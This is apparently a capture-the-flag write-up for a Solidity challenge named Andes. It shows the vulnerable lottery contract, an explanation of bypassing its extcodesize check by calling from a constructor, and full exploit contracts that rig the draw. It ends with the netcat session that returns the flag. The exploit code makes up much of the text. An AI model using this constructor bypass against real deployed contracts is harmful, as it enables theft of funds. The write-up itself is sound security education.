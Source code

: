 # Andes
For this challenge we were given the following Solidity contract code:

```js
pragma solidity ^0.7.6;


contract Andes {
    // designators can designate an address to be the next random
    // number selector
    mapping (address => bool) designators;
    mapping (address => uint) balances;

    address selector;
    uint8 private nextVal;
    address[8][8] bids;

    event Registered(address, uint);
    event RoundFinished(address);
    event GetFlag(bytes32);

    constructor(){
        designators[msg.sender] = true;
        _resetBids();
    }

    modifier onlyDesignators() {
        require(designators[msg.sender] == true, "Not owner");
        _;
    }

    function register() public {
        require(balances[msg.sender] < 10);
        
        balances[msg.sender] = 50;

        emit Registered(msg.sender, 50);
    }

    function setNextSelector(address _selector) public onlyDesignators {
        require(_selector != msg.sender);
        selector = _selector;
    }

    function setNextNumber(uint8 value) public {
        require(selector == msg.sender);
        
        nextVal = value;
    }

    function _resetBids() private {
        for (uint i = 0; i < 8; i++) {
            for (uint j = 0; j < 8; j++) {
                bids[i][j] = address(0);
            }
        }
    }

    function purchaseBid(uint8 bid) public {
        require(balances[msg.sender] > 10);
        require(msg.sender != selector);

        uint row = bid % 8;
        uint col = bid / 8;

        if (bids[row][col] == address(0)) {
            balances[msg.sender] -= 10;
            bids[row][col] = msg.sender;
        }
    }

    function playRound() public onlyDesignators {
        address winner = bids[nextVal % 8][nextVal / 8];

        balances[winner] += 1000;
        _resetBids();

        emit RoundFinished(winner);
    }

    function getFlag(bytes32 token) public {
        require(balances[msg.sender] >= 1000);

        emit GetFlag(token);
    }

    function _canBeDesignator(address _addr) private view returns(bool) {
        uint size = 0;

        assembly {
            size := extcodesize(_addr)
        }

        return size == 0 && tx.origin != msg.sender;
    }

    function designateOwner() public {
        require(_canBeDesignator(msg.sender));
        require(balances[msg.sender] > 0);
        
        designators[msg.sender] = true;
    }

    function getBalance() public view returns(uint) {
        return balances[msg.sender];
    }
}
```

Okay, this contract is kind of complicated so let's start from our end goal - we want to be able to call the 
getFlag() function and in order to do that the sender must have a balance of 1000. I'm going to call this sender the bettor
as we will need multiple contracts to complete this challenge. 
We can win 1000 from winning the lottery game as we can see in the playRound() function. 
To enter the lottery our bettor must register() and not be the selector as we can see in the purchaseBid() function.
Okay so what does the selector do? The selector can choose the number that comes up in the lottery with the 
setNextNumber() function. Easy enough to see how that will be abused! How is the selector... selected?
The selector is selected by the setNextSelector() function which can only be called by designators as we can see from 
the onlyDesignators modifier on that function.
Designators are designated by the designateOwner() function but first they must pass two checks in the _canBeDesignator() function.

The first check is that extcodesize(designator_address) must be zero. What this means is that the designator address must 
have no code associated with it, it can't be a smart contract. However this check is bypassable. If we call the designateOwner() function inside our constructor function then the address will not yet have any code associated with it and this check will be bypassed.

The second check is that tx.origin must not be the same as msg.sender. This means that we must use a smart contract, the 
tx.origin is the address that triggers a transaction while the msg.sender is the address that called this contract and these must not be the same to get past this.
This is here to force us to use the bypass I just mentioned and stop people from trying to attack the contract manually from a non smart contract address.
Doing it manually would have significant difficulties anyway because you would need to select a selector in one transaction and trigger the rest of the attack in another transaction (selecting number, placing bet) and then call the playROund() function in yet another transaction, all without someone else interacting with the contract inbetween.

Here is the contract code I made to exploit all this:
```js
pragma solidity ^0.7.6;

interface IAndes {
    function register() external;
    function setNextSelector(address _selector) external;
    function setNextNumber(uint8 value) external;
    function purchaseBid(uint8 bid) external;
    function playRound() external;
    function getFlag(bytes32 token) external;
    function designateOwner() external;
}
interface ISelector {
    function setNextNumber(IAndes target, uint8 number) external;
}

interface IBidder {
    function register(IAndes target) external;
    function purchaseBid(IAndes target, uint8 myLuckyNumber) external;
    function getFlag(IAndes target, bytes32 token) external;
}

contract Designator {
    IAndes target;

    constructor(address _target) {
        target = IAndes(_target);
        target.register();
        target.designateOwner();
    }
    
    // this is all the steps in one function
    function attack(address _selector,address _bidder,bytes32 token, uint8 myLuckyNumber) public {
        ISelector selector = ISelector(_selector);
        IBidder bidder = IBidder(_bidder);
        target.setNextSelector(_selector);
        selector.setNextNumber(target, myLuckyNumber);
        bidder.register(target);
        bidder.purchaseBid(target, myLuckyNumber);
        target.playRound();
        bidder.getFlag(target, token);
    }
}

contract Selector {
    function setNextNumber(IAndes target, uint8 number) public {
        target.setNextNumber(number);
    }
}

contract Bidder {
    function register(IAndes target) public {
        target.register();
    }
    
    function purchaseBid(IAndes target, uint8 myLuckyNumber) public {
        target.purchaseBid(myLuckyNumber);
    }
    
    function getFlag(IAndes target, bytes32 token) public {
        target.getFlag(token);
    }   
}
```

First we deploy the 3 contracts, we must give the Andes address in the contructor of the Designator contract.
Then we call the attack function on our designator contract with the addresses of our other contracts and the flag we want to be emitted.
And voila: https://goerli.etherscan.io/tx/0xd8c609a47b32a527572dd9d76b787bab9cea20da7a116b3e71857409cc57346c#eventlog
```
nc -v nile.chall.pwnoh.io 13378
Connection to nile.chall.pwnoh.io (3.132.58.34) 13378 port [tcp/*] succeeded!
Hello! The contract is running at 0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500 on the Goerli Testnet.
Here is your token id: 0x8b89f316870288c576123f7fb2034952
Are you ready to receive your flag? (y/n)
y
Here is the flag: buckeye{n3v3r_g4mbl1ng_4g41n}
```
